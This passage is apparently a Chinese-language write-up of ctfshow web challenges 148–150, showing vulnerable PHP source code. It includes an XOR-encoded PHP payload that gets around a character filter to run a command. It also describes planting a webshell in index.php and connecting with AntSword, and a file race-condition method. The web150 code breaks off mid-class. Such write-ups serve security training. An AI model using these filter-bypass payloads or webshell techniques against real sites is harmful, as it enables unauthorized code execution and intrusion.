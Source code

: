 未过滤异或，直接构造

**payload**

```
?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```



### web149

```
error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

非预期

往index.php直接写马，然后蚁剑连接即可

预期解

文件竞争，一个负责一直写文件，一个负责一直读文件



### web150

```
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

```
